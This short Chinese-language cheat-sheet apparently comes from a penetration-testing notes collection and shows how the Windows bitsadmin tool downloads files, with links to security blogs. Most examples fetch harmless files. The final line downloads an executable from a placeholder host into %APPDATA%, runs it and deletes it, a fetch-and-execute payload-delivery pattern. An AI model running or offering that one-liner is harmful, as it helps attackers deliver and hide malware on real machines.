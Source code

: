 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：

https://www.cnblogs.com/hookjoy/p/6550992.html

https://xz.aliyun.com/t/1654/



1.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```


2.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

3. 带进度条 ```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

4、多条命令
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```


bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe
